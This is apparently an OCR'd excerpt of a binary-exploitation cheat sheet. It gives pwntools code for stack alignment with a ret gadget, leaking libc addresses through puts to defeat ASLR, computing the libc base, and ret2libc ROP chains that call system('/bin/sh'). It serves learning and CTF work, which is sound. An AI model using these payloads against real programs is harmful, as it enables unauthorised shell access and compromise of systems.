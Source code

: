 ***

### III. 💣 Stack Alignment (Ret-Sled Trick)

When `system("/bin/sh")` crashes with segmentation faults, alignment is off.\
Fix by adding a `ret` gadget before your chain:

```python
payload = b"A"*offset + p64(rop.find_gadget(['ret'])[0]) + rop.chain()
```

***

### IV. 🧠 Leaking Memory Addresses (Defeating ASLR)

#### 🧩 Leak libc address

```python
rop = ROP(elf)
rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])
payload = b"A"*offset + rop.chain()
p.sendline(payload)
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
print(hex(leaked))
```

#### 🧠 Calculate libc base

```python
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address = leaked - libc.symbols['puts']
```

Now you can call:

```python
rop = ROP(libc)
rop.call('system', [next(libc.search(b"/bin/sh\x00"))])
```

***

### V. ⚙️ Ret2libc Attack (No Shellcode, No ExecStack)

**Goal:** Call existing functions in libc (like `system("/bin/sh")`).

#### 💣 Classic Example

```python
payload = b"A"*offset
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libc.symbols['system'])
```

**Bypasses:** NX, execstack disabled.\
**Limitation:** Requires address leaks (ASLR handling).
